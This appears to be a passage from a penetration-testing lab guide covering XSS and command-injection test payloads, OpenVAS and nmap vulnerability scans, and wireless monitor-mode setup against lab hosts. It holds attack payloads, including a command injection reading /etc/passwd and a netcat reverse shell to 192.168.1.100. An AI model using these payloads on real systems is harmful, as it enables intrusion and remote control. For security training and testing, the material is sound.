 **Cross-Site Scripting (XSS):**
```bash
# Test payloads:
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
javascript:alert('XSS')

# Advanced XSS with Dalfox
dalfox url http://localhost:8080/vulnerabilities/xss_r/?name=test
```

**Command Injection:**
```bash
# Test payloads:
; ls -la
&& whoami
| cat /etc/passwd

# Reverse shell payload:
; nc -e /bin/bash 192.168.1.100 4444
```

### 2. Network Vulnerability Scanning

**OpenVAS Setup and Scan:**
```bash
# Start OpenVAS
sudo openvas-start

# Access web interface at https://localhost:9392
# Default credentials: admin/admin

# Create new task targeting 192.168.1.10
# Run comprehensive scan
```

**Nmap Vulnerability Scripts:**
```bash
# Run vulnerability detection scripts
nmap --script vuln 192.168.1.10

# Specific CVE checks
nmap --script http-vuln-cve2017-5638 192.168.1.10

# SMB vulnerabilities
nmap --script smb-vuln-* 192.168.1.10
```

### 3. Wireless Security Assessment

**Monitor Mode Setup:**
```bash
# Enable monitor mode
sudo airmon-ng start wlan0

# Check for monitor interface
iwconfig
```
